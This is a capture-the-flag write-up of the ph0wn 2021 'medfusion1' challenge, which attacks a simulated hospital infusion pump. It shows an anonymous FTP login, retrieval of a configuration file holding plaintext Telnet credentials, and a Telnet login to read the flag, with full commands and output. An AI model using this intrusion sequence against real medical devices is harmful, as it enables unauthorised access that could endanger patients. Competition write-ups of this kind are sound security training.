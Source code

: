 # ph0wn 2021 medfusion1 challenge

- Category: Pentest
- Author: cryptax
- Author of the write-up: Gianluca and cryptax
- Points: 92
- 15 teams solved the challenge

## Description

The French hospital "CHU Ph0wn" uses a Smiths Medical Medfusion 4000 infusion pump, available at host *medfusion.ph0wn.org*

Find the flag :)

Please beware our hospital patients: no need to brute force ;-)

## Nmap

Using **nmap**, I saw that a telnet server and a ftp server were available at the given IP address.

Note:

- Several participants tried to connect to *http: // medfusion . ph0wn . org* and complained it was down. The infusion pump does not have a web server. Only FTP and Telnet.


## FTP

Connect to ftp server, and logged in as `anonymous` without any password.
Then enter in *passive mode* and download available `CONFIG.XML`.

Note: on FTP servers, most of the time, the *active* mode does not work. You need to specifically request *passive* mode. [Read about it here, for example](https://titanftp.com/2018/08/23/what-is-the-difference-between-active-and-passive-ftp/).

*Many participants complained FTP was down. It wasn't, but without passive mode, you cannot list and retrieve files...* The answer was always: "it's up, but you're missing a small element to do".


```
$ ftp 34.79.161.43
Connected to 34.79.161.43
220 RTCS Ready
Name (34.79.161.43): anonymous
331 Looking up password
Password:
230 Login successful
Remote system type is Unix.
ftp> passive
Passive mode on.
ftp> ls
227 Entering Passive Mode (34,140,103,157,117,48).
150 Opening ASCII mode data connection.
-rw-r--r-- 1 root root 211 Oct 21 09:43 CONFIG.XML
226 Directory send OK
ftp> get CONFIG.XML
local: CONFIG.XML remote: CONFIG.XML
227 Entering Passive Mode (34,140,103,157,117,48).
150 Opening data connection for RETR.
WARNING! 8 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
211 bytes received in 0.00 secs (1.5479 MB/s)
```

## CONFIG.XML

In `CONFIG.XML`, read Telnet credentials:

```xml
<?xml version="1.0"?>
<Medfusion3600Configuration>
  <TelnetInterface>
    <Port>23</Port>
    <Username>medfusion</Username>
    <Password>chu_ph0wn</Password>
 </TelnetInterface>
</Medfusion3600Configuration>
```


I used credentials written inside `CONFIG.XML` for telnet connection, and here I found `flag1.txt` which contained the flag:


```
$ telnet  34.79.161.43
Trying 34.79.161.43...
Connected to 34.79.161.43.
Escape character is '^]'.
RTCS v2.96.00 Telnet server

Welcome to the Medfusion 4000 Configuration Interface


medfusion login: medfusion
Password: 
Linux medfusion 4.19.0-17-cloud-amd64 #1 SMP Debian 4.19.194-1 (2021-06-10) x86_64
 
4000>ls
copy_of_drugserver  flag1.txt  test.sh
4000>cat flag1.txt
ph0wn{so_you_are_r00t_step1_yo!}
```

*Note that this challenge is greatly inspired from [Remote Code Execution on the Smiths Medical Medfusion 4000](https://github.com/sgayou/medfusion-4000-research/blob/master/doc/README.md)*. At least one team saw that, many managed to solve - even stage 2 - without being aware of it.
